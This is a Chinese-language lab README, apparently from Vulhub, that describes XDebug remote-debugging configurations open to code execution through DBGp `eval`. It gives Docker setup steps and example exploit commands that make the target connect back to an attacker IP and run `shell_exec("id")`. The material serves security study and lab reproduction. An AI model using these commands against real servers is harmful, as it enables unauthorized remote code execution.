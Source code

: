 # PHP XDebug远程调试导致代码执行漏洞

XDebug是一个用于调试PHP代码的扩展。当启用远程调试模式并设置适当的配置时，攻击者可以通过利用调试协议(DBGp)在目标服务器上执行任意PHP代码。

对于XDebug 2.x版本，当配置如下时存在漏洞：

```ini
xdebug.remote_connect_back = 1
xdebug.remote_enable = 1
```

对于XDebug 3.x版本，当配置如下时存在漏洞：

```ini
xdebug.mode = debug
xdebug.discover_client_host = 1
xdebug.client_host = 1
```

当启用这些配置时，XDebug会在接收到`XDEBUG_SESSION_START`、`XDEBUG_SESSION`、`XDEBUG_TRIGGER`等参数时，尝试通过DBGp协议连接回攻击者的IP。该协议提供了一个`eval`函数，可用于执行任意PHP代码。

参考链接：

- <https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface>
- <https://xdebug.org>

## 环境搭建

执行如下命令编译并启动漏洞环境：

```
docker compose up -d
```

该环境包含两个服务：

- PHP 7.1 + XDebug 2.5.5：可通过`http://your-ip:8080/`访问
- PHP 7.4 + XDebug 3.1.6：可通过`http://your-ip:8081/`访问

环境启动后，访问各个URL可以看到一个简单的phpinfo页面。在PHP配置部分可以验证XDebug已启用并配置了远程调试功能。

## 漏洞复现

由于漏洞需要使用DBGp协议与目标服务器通信，所以无法仅使用HTTP协议复现漏洞。

Vulhub提供了一个简单的漏洞利用脚本[exp.py](exp.py)，可以在目标服务器上执行任意PHP代码。该脚本同时支持XDebug 2.x（端口9000）和XDebug 3.x（端口9003）：

```bash
# 需要Python 3和requests库
python3 exp.py -t http://[target-ip]:8080/index.php -c 'shell_exec("id");' --dbgp-ip [attacker-ip]
python3 exp.py -t http://[target-ip]:8081/index.php -c 'shell_exec("id");' --dbgp-ip [attacker-ip]
```

成功利用漏洞后将执行命令并返回输出：

![](1.png)

### 重要说明

漏洞利用过程涉及反向连接：

1. 利用脚本同时监听9000端口（XDebug 2.x）和9003端口（XDebug 3.x），请确保这些端口没有被防火墙阻止
2. 你需要有一个公网IP地址或与目标在同一网络中才能接收到连接
3. 如果你的公网IP与本地机器不同，请使用`--dbgp-ip`参数指定目标服务器可以访问的IP地址
